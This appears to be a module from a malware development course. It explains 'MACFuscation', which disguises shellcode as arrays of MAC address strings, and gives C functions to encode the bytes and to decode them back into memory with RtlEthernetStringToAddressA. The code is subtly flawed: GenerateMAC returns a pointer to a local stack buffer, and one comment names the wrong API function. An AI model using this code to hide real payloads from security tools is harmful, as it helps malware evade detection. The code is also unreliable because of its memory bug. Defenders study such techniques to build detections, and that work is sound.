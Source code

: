 22. Payload Obfuscation - MACFucscation[**22. Payload Obfuscation - MACFucscation**](https://maldevacademy.com/modules/22)
===================================================================================

**Payload Obfuscation - MACFucscation**
---------------------------------------

### **Introduction**

This module will go through another obfuscation technique that is similar to IPv4/IPv6fuscation but instead converts shellcode to MAC addresses.

### **MACFuscation Implementation**

The implementation of MACFuscation will be similar to what was done in the previous module with IPv4/IPv6fuscation. A MAC address is made up of 6 bytes, therefore the shellcode should be a multiple of 6, which again can be padded if it doesn't meet that requirement.


```
// Function takes in 6 raw bytes and returns them in a MAC address string format
char* GenerateMAC(int a, int b, int c, int d, int e, int f) {
	char Output[64];

	// Creating the MAC address and saving it to the 'Output' variable
	sprintf(Output, "%0.2X-%0.2X-%0.2X-%0.2X-%0.2X-%0.2X",a, b, c, d, e, f);

	// Optional: Print the 'Output' variable to the console
	// printf("[i] Output: %s\n", Output);

	return (char*)Output;
}

// Generate the MAC output representation of the shellcode
// Function requires a pointer or base address to the shellcode buffer & the size of the shellcode buffer
BOOL GenerateMacOutput(unsigned char* pShellcode, SIZE_T ShellcodeSize) {

	// If the shellcode buffer is null or the size is not a multiple of 6, exit
	if (pShellcode == NULL || ShellcodeSize == NULL || ShellcodeSize % 6 != 0){
		return FALSE;
	}
	printf("char* MacArray [%d] = {\n\t", (int)(ShellcodeSize / 6));

	// We will read one shellcode byte at a time, when the total is 6, begin generating the MAC address
	// The variable 'c' is used to store the number of bytes read. By default, starts at 6.
	int c = 6, counter = 0;
	char* Mac = NULL;

	for (int i = 0; i < ShellcodeSize; i++) {

		// Track the number of bytes read and when they reach 6 we enter this if statement to begin generating the MAC address
		if (c == 6) {
			counter++;

			// Generating the MAC address from 6 bytes which begin at i until [i + 5]
			Mac = GenerateMAC(pShellcode[i], pShellcode[i + 1], pShellcode[i + 2], pShellcode[i + 3], pShellcode[i + 4], pShellcode[i + 5]);

			if (i == ShellcodeSize - 6) {

				// Printing the last MAC address
				printf("\"%s\"", Mac);
				break;
			}
			else {
				// Printing the MAC address
				printf("\"%s\", ", Mac);
			}
			c = 1;

			// Optional: To beautify the output on the console
			if (counter % 6 == 0) {
				printf("\n\t");
			}
		}
		else {
			c++;
		}
	}
	printf("\n};\n\n");
	return TRUE;
}


```
### **Deobfuscating MACFuscation Payloads**

The deobfuscation process will reverse the obfuscation process, allowing a MAC address to generate bytes instead of using bytes to generate a MAC address. Performing deobfuscation will require the use of the NTDLL API function [RtlEthernetStringToAddressA](https://learn.microsoft.com/en-us/windows/win32/api/ip2string/nf-ip2string-rtlethernetstringtoaddressa). This function converts a MAC address from a string representation to its binary format.


```
typedef NTSTATUS (NTAPI* fnRtlEthernetStringToAddressA)(
	PCSTR		S,
	PCSTR* 		Terminator,
	PVOID		Addr
);

BOOL MacDeobfuscation(IN CHAR* MacArray[], IN SIZE_T NmbrOfElements, OUT PBYTE* ppDAddress, OUT SIZE_T* pDSize) {

	PBYTE          pBuffer        = NULL,
                   TmpBuffer      = NULL;

	SIZE_T         sBuffSize      = NULL;

	PCSTR          Terminator     = NULL;

	NTSTATUS       STATUS         = NULL;

	// Getting RtlIpv6StringToAddressA address from ntdll.dll
	fnRtlEthernetStringToAddressA pRtlEthernetStringToAddressA = (fnRtlEthernetStringToAddressA)GetProcAddress(GetModuleHandle(TEXT("NTDLL")), "RtlEthernetStringToAddressA");
	if (pRtlEthernetStringToAddressA == NULL) {
		printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// Getting the real size of the shellcode which is the number of MAC addresses * 6
	sBuffSize = NmbrOfElements * 6;


	// Allocating memeory which will hold the deobfuscated shellcode
	pBuffer = (PBYTE)HeapAlloc(GetProcessHeap(), 0, sBuffSize);
	if (pBuffer == NULL) {
		printf("[!] HeapAlloc Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	TmpBuffer = pBuffer;

	// Loop through all the MAC addresses saved in MacArray
	for (int i = 0; i < NmbrOfElements; i++) {

		// Deobfuscating one MAC address at a time
		// MacArray[i] is a single Mac address from the array MacArray
		if ((STATUS = pRtlEthernetStringToAddressA(MacArray[i], &Terminator, TmpBuffer)) != 0x0) {
			// if it failed
			printf("[!] RtlEthernetStringToAddressA Failed At [%s] With Error 0x%0.8X", MacArray[i], STATUS);
			return FALSE;
		}

		// 6 bytes are written to TmpBuffer at a time
		// Therefore Tmpbuffer will be incremented by 6 to store the
		TmpBuffer = (PBYTE)(TmpBuffer + 6);

	}

	// Save the base address & size of the deobfuscated payload
	*ppDAddress  = pBuffer;
	*pDSize      = sBuffSize;

	return TRUE;

}

```
The image below shows the deobfuscation process successfully running.

[![](22%20Payload%20Obfuscation%20-%20MACFucscation%208acebc37c16548f2a0279babcac9f579/macfuscation.png)](22%20Payload%20Obfuscation%20-%20MACFucscation%208acebc37c16548f2a0279babcac9f579/macfuscation.png)